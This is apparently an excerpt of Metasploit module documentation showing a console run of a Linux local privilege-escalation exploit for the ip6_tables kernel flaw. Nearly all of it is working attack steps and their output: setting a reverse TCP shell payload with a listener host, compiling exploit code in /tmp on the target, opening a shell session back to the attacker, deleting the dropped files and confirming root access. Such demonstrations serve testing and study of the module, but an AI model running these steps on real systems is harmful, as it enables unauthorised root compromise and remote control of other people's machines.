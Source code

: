     [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (ipv6.rc)> use exploit/linux/local/ipv6_table_priv_esc
    resource (ipv6.rc)> set verbose true
    verbose => true
    resource (ipv6.rc)> set payload linux/x64/shell/reverse_tcp
    payload => linux/x64/shell/reverse_tcp
    resource (ipv6.rc)> set session 1
    session => 1
    resource (ipv6.rc)> set target 2
    target => 2
    resource (ipv6.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ipv6.rc)> check
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*]  The target appears to be vulnerable.
    resource (ipv6.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing to /tmp/cxvXS1Et.c (5207 bytes)
    [*] Max line length is 65537
    [*] Writing 5207 bytes in 1 chunks of 18911 bytes (octal-encoded), using printf
    [*] Compiling /tmp/cxvXS1Et.c
    [*] Writing to /tmp/euPEmXEw.c (1765 bytes)
    [*] Max line length is 65537
    [*] Writing 1765 bytes in 1 chunks of 6430 bytes (octal-encoded), using printf
    [*] Compiling /tmp/euPEmXEw.c
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (38 bytes) to 192.168.2.137
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.137:32774) at 2016-10-25 14:57:37 -0400
    [+] Deleted /tmp/cxvXS1Et
    [+] Deleted /tmp/euPEmXEw
    
    2709367386
    bsyYStlRnxfJBPOnzMtRuBJObUgtuapE
    true
    lNkKUmXZYXwgkjdSYQuzsDlsiEdsUBIy
    kReTxDWDCaXVfucIOVlrLLlDnZPJgCPD
    dsosNUMKyJSOXrnOXqmisCSZhuUkaFMq
    true
    OoXosKyvbZlKXeVxxKWZWVjJGCPtbOha
    KykivOmeGNTTexEvUQckdNBPucVexZMe
    vXkjDSkMGfFVLQNNwlbUQZZywbEmqxPQ
    whoami
    root
    uname -a
    Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
